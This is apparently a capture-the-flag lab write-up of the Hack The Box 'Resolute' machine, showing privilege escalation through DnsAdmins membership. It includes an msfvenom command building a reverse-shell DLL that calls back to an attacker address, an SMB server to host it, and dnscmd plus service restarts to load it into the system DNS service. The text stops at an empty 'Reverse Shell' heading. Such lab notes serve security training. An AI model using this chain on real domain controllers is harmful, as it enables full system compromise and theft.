

# 25 - PrivEsc Ryan


# Contractors & DnsAdmins
```powershell
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```


DnsAdmins is an active directory security group, it has read write access to dns objects. dns.exe runs as system and dns admins can load dlls into this executable.

For a more detailed explanation see https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83


Caution: The following exploit hangs the dns server because once the dll is loaded and executing it won't return. Another exploit can be tried https://github.com/kazkansouh/DNSAdmin-DLL . In this repository they use a thread to execute the reverse shell so it does not cause the calling process to hang.


# DLL generation and smb server
```bash
┌─[user@parrot]─[10.10.14.6]─[~/htb/resolute/www]
└──╼ $ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4444  -f dll > dns.dll 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload                                                   
Payload size: 460 bytes                                                                        
Final size of dll file: 8704 bytes    

┌─[user@parrot]─[10.10.14.6]─[~/htb/resolute]
└──╼ $ sudo impacket-smbserver  -smb2support   
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation                                       
                                               
[*] Config file parsed                                                                         
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0                         
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed                                                                         
[*] Config file parsed                                                                                                                                                                        
[*] Config file parsed 
```


# DLL injection

```bash
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd 127.0.0.1 /config /serverlevelplugindll \\10.10.14.10\www\dns.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.

*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2880
        FLAGS              :
```


# Reverse Shell
